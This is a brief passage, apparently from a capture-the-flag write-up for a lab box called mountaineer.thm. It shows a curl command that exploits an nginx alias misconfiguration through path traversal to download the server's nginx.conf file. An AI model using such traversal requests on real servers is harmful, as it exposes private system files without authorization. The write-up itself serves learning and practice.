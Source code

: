 ![](./assets/alias_misconf.png)

It worked ! Trough this, I obtained the `nginx.conf` file

`curl http://mountaineer.thm/wordpress/images../etc/nginx/nginx.conf -o nginx.conf`
